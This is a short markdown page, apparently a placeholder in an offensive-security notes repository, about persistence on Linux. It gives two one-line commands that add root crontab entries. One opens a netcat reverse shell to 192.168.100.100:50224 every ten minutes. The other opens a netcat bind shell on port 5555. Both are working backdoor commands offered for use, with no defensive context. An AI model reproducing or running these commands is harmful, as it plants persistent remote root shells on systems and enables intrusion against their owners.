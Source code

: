 # Place Holder

## Add a new cron job to the current user's crontab that will try to connect back to 192.168.100.100:50224 every 10 minutes:
```(crontab -u root -l; echo "*/10 * * * * nc 192.168.100.100 50224 -e /bin/bash") | crontab -u root -```

## Add a new cron job to the current user's crontab that will try to open a bind port every 10 minutes on port 5555:
```(crontab -u root -l; echo "*/10 * * * * nc -lvp 5555 -e /bin/bash") | crontab -u root -```

Content coming. Feel free to submit ;-)
